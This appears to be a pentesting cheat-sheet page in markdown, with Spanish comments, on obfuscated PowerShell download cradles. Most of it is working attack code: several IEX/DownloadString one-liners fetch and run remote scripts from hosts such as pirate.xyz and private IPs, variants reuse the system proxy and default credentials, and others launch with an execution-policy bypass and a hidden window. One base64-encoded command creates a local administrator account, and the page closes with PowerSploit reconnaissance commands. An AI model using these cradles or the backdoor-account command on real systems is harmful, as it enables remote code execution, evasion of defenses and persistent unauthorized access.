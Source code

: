```yaml
---
title: 'Obfuscation'
description: ''
pubDate: 'May 12 2023'
slug: 'powershell/obfuscation'
---
```


```powershell
# executa y descarga, el metodo DownloadString ejecutara nuestro script remoto en el proceso de la memoria del powershell
powershell IEX(New-Object Net.Webclient).downloadString(\'http://10.90.60.80:33333/script.ps1\')
# igual q, logo.gif igual ejecuta como ps1:
$downloader = New-Object System.Net.WebClient
$downloader.Headers.Add("user-agent", "Mozilla/5.0 (windwos ....)")
$payload = "http://goo.com/logo.gif"
$command = $downloader.DownloadString($payload)
Invoke-Expression $command
#same as "iex $command"

# Ruidoso y no recomendado
$downloader = New-Object System.Net.WebClient
$payload = "http://pirate.xyz/barbie.ps1"
$local_file = "C:\programdata\barbie.ps1"
$downloader.DownloadFile($payload, $local_file)
# podemos ejecutar así
& $loca_file

# system proxy y credenciales por defecto
$downloader = New-Object System.Net.WebClient
$payload = "http://pirate.xyz/script.ps1"
$cmd = $downloader.DownloadFile($payload)
$proxy = [Net.WebRequest]::GetSystemWebProxy()
$proxy.Credentials = [Net.CredentialCache]::DefaultCredentials
$downloader.Proxy = $proxy
iex $cmd

# Ejecutar en la memoria y configurado como proxy
$req = [System.Net.WebRequest]::Create("http://pirate.xyz/script.ps1")
$res = $req.GetResponse()
###
$proxy = [Net.WebRequest]::GetSystemWebProxy()
$proxy.Credentials = [Net.CredentialsCache]::DefaultCredentials
$req.Proxy = $proxy
iex ([System.IO.StreamReader]($res.GetResponseStream())).ReadToEnd()

# System.Xml.XmlDocument
# <?xml version="1.0"?>
# <command>
# <a>
# <execute>Get-Process</execute>
# </a>
# </command>
$xmldoc = New-Object System.Xml.XmlDocument
$xmldoc.Load("http://pirate.xyz/file.xml")
iex $xmldoc.command.a.execute

# COM objects
$downloader = New-Object -ComObject Msxml2.XMLHTTP
$downloader.open("GET", "http://pirate.xyz/script.ps1", $false)
$downloader.send()
iex $downloader.responseText

# WinHttp.WinHttpRequest.5.1
$downloader = New-Object -ComObject WinHttp.WinHttpRequest.5.1
$downloader.open("GET", "http://pirate.xyz/script.ps1", $false)
$downloader.send()
iex $downloader.responseText

## IMPORTANT
powershell.exe -ExecutionPolicy bypass -
Window hidden .\download.ps1
```

(herramienta de creación de cunas de descarga ofuscadas )[https://github.com/danielbohannon/Invoke-CradleCrafter]

### Invoke-Obfuscation

```powershell

SET SCRIPTBLOCK iex (New-Object Net.Webclient).downloadstring("http://192.168.0.17:8080/script.ps1")

# from cmd

powershell.exe -Command "obfuscate"

# add new user admin1 al grupo administrador

$command = `net user admin1 "password9001" /ADD;net localgroup administrators admin1 /add`
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

Write-Host $encodedCommand asihdaouishdpuioawhd auoisdhauispdhauishd

powershell.exe -encodedcommand asihdaouishdpuioawhdauoisdhauispdhauishd
```

### PowerSploit - Get-HttpStatus

```powershell
Get-HttpStatus -Target 192.168.0.17 -Path dictionary.txt -Port 80 | ? {$_.Status -match "ok"}
```

### PowerSploit - Posh-SecMod

```powershell
Invoke-ARPScan -CIDR 192.168.0.0/24

Get-Command -Module Posh-SecMod

```

### Links

- [Get-HttpStatus](https://powersploit.readthedocs.io/en/latest/Recon/Get-HttpStatus/)

- [Invoke-Portscan.ps1](https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Portscan/)

- [Posh-SecMod](https://github.com/darkoperator/Posh-SecMod)

- [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/)
